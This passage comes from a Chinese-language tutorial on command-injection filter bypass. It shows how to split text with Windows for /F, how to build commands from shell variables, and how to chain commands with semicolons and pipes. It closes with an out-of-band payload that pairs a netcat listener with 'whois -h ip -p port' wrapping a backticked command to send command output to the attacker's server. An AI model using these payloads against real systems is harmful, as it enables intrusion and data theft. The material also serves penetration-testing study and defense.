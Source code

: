 For /F 是以行为单位来处理文本文件的，如果我们想把每一行再分解成更小的内容，就使用 delims 和 tokens 选项。delims 用来告诉 for 每一行用什么作为分隔符，默认分隔符是空格和 Tab 键。

`for /F "delims= " %i in (aa.txt) do echo %i`  

将 delims 设置为空格，是将每个元素以空格分割，默认只取分割之后的第一个元素。

如果我们想得到第二列数据，就要用到 tokens=2，来指定通过 delims 将每一行分成更小的元素时，要取出哪一个或哪几个元素:

`for /F "tokens=2 delims= " %i in (aa.txt) do echo %i`

#### 三. 进入 linux

##### 2.1 linux 下的符号和逻辑运算符  

这个时候有好奇的观众朋友就要问了，那对方服务器是 linux 的话怎么办呢？  
道理也是相同的

```
a=who
b=ami
$a$b
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoQNv9FKIAMZtbic8jG9LvrUibI74oiawzBCEjVwQaRWibWfUxQickrvxcW9mvqWFKmJQm0lCHodVhg5Qw/640?wx_fmt=png)

只不过 windows 的 cmd 下取变量值需要用两个 %，linux 下需要用 $

那么我们又可以怎么组合呢，接着来看

Linux 下用分号表示命令结束后执行后面的命令，无论前面的命令是否成功

```
ping www.; whoami
echo tj ; whoami
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoQNv9FKIAMZtbic8jG9LvrUKSU01LLh60YI9YtsFkhFBt84EWQEg7FNx07rX6Qp7ibb69LX4nM0StA/640?wx_fmt=png)

符号 | 在 linux 中，可以连接命令，和 win 一样，也只会执行后面那条命令

其他符号如 || 、& 、&& 和 windows 都是一样，不再过多赘述

那么让我们根据以上两点进行一个结合

```
t=l; j=s; i=" -al"; $t$j$i
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoQNv9FKIAMZtbic8jG9LvrU25wDCatCu9BPNFHSOM23zDHNytd2S7HvvbzFDtqOvXADW9dBBtB71w/640?wx_fmt=png)

##### 2.2 利用未被过滤的命令，一个例子！

哥哥们看图好了

```
自己服务器中：nc -lvvp 端口
payload发送给对方：whois -h ip -p 端口`命令`//``为反引号
//下图以自身服务器的1234端口作演示，实际情况根据个人更改
```
